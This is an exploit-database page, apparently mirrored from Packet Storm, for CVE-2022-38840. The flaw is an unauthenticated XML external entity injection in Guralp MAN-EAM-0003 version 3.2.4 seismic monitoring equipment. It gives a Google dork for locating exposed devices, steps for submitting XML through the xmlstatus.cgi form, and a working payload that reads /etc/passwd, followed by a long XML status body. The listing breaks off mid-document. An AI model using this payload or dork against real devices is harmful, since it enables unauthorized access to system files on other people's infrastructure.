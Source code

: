 ```yaml
---
title: MAN-EAM-0003 3.2.4 XML Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171439&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-25
fetch_date: 2025-10-04T10:36:28.033374
---
```


# MAN-EAM-0003 3.2.4 XML Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for MAN-EAM-0003 3.2.4 XML Injection CVE-2022-38840

2023-03-24 | CVSS 7.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171439
# Exploit Title: MAN-EAM-0003 V3.2.4 - XXE
# Date: 2022-09-19
# Exploit Author: Ahmed Alroky
# Author: http://guralp.com/
# Version: 3.2.4
# Authentication Required: NO
# CVE : CVE-2022-38840
# Google dork: " webconfig menu.cgi "
# Tested on: Windows

# Exploit

1 - browse to http://<Host<http://%3cHost> name>/cgi-bin/xmlstatus.cgi
2 - click on "View saved XML snapshot" and upload XML exploit file or paste the exploit code and submit the form
3 - you will get /etc/passwd file content

#XML exploit code

```
<?xml version='1.0'?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<xml-status xmlns='http://www.guralp.com/platinum/xmlns/xmlstatus/1.1'>
<module status='-1' display-primary='true' path='das' title='Data acquisition'>
<reading status='100' display-primary='false' path='is_faulty'
title='Fault condition'>false</reading>
<reading status='-1' display-primary='false' path='dsp_tag'
title='DSP code tag'>platinum</reading>
<reading status='-1' display-primary='false' path='dsp_version'
title='DSP code version'>102</reading>
<reading status='100' display-primary='true' path='dsp_state'
title='Acquisition hardware module'>running</reading>
<reading status='-1' display-primary='true' path='reference_clock'
title='Reference clock type'>GPS</reading>
<reading status='100' display-primary='false' path='clock_controller'
title='ADC clock controller state'>FLL</reading>
<reading status='-1' display-primary='false' path='clock_control_val'
title='ADC clock controller value'>46196</reading>
<reading status='100' display-primary='true' path='clock_locked'
title='ADC clock locked'>true</reading>
<reading status='-1' display-primary='true' path='clock_last_locked'
title='ADC clock last locked at'>2022-06-14T11:26:53Z</reading>
<reading status='100' display-primary='true' path='clock_phase_error' units='s'
title='ADC clock phase error'>6.1e-08</reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.0' title='Sensor A'>
<reading status='100' display-primary='true' path='state'
title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
title='Last action'></reading>
<reading status='96' display-primary='true' path='mass_Z'
title='Z mass position'>4.6%</reading>
<reading status='100' display-primary='true' path='mass_N'
title='N mass position'>-0.3%</reading>
<reading status='100' display-primary='true' path='mass_E'
title='E mass position'>-0.3%</reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.1' title='Sensor B'>
<reading status='100' display-primary='true' path='state'
title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
title='Last action'></reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.X' title='Auxiliary'>
<reading status='100' display-primary='true' path='state'
title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
title='Last action'></reading>
</module>
<module status='-1' display-primary='true' path='gcf-out-scream.default' title='Scream server (GCF network sender)'>
<reading status='100' display-primary='true' path='total_blocks'
title='Total number of blocks sent'>11374055</reading>
<reading status='100' display-primary='true' path='last5_blocks'
title='Number of blocks sent in last 5 minutes'>331</reading>
<reading status='-1' display-primary='false' path='port_number'
title='Port listening on'>1567</reading>
<reading status='-1' display-primary='true' path='num_clients'
title='Number of clients connected'>0</reading>
<list status='-1' display-primary='true' path='clients' title='Clients'>
</list>
</module>
<module status='-1' display-primary='false' path='gdi-base.default' title='Default data transport daemon'>
<reading status='100' display-primary='true' path='num_channels'
title='Number of channels'>16</reading>
<reading status='100' display-primary='true' path='num_clients'
title='Number of connected clients'>5</reading>
<reading status='100' display-primary='true' path='num_samples'
title='Number of samples received'>7338920142</reading>
<reading status='100' display-primary='true' path='last5_samples'
title='Number of samples in last 5 minutes'>213600</reading>
<list status='-1' display-primary='false' path='clients' title='Clients'>
<list-item status='-1' display-primary='false' path='44B02216' title='Client #1'>
<reading status='-1' display-primary='false' path='name'
title='Client name'>gdi2gcf[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='1CC104A5' title='Client #2'>
<reading status='-1' display-primary='false' path='name'
title='Client name'>gdi-link-tx[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='9D9E4553' title='Client #3'>
<reading status='-1' display-primary='false' path='name'
title='Client name'>gdi2miniseed[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='4B1427EC' title='Client #4'>
<reading status='-1' display-primary='false' path='name'
title='Client name'>das-in</reading>
</list-item>
<list-item status='-1' display-primary='false' path='412FD3EB' title='Client #5'>
<reading status='-1' display-primary='false' path='name'
title='Client name'>das-in-textstatus</reading>
</list-item>
</list>
<list status='-1' display-primary='false' path='channels' title='Channels'>
<list-item status='-1' display-primary='false' path='38B5E770' title='Channel #1'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HHZ.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='7B77F21B' title='Channel #2'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HHN.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='B55019F4' title='Channel #3'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HHE.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='35ED217B' title='Channel #4'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HDF.TM.X0</reading>
</list-item>
<list-item status='-1' display-primary='false' path='8062D6AB' title='Channel #5'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HNZ.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='2099C9F1' title='Channel #6'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HNN.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='DE833721' title='Channel #7'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.HNE.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='5510ED44' title='Channel #8'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.MMZ.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='ACFA260E' title='Channel #9'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB.MMN.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='5BED382E' title='Channel #10'>
<reading status='-1' display-primary='false' path='name'
title='Channel name'>DONB...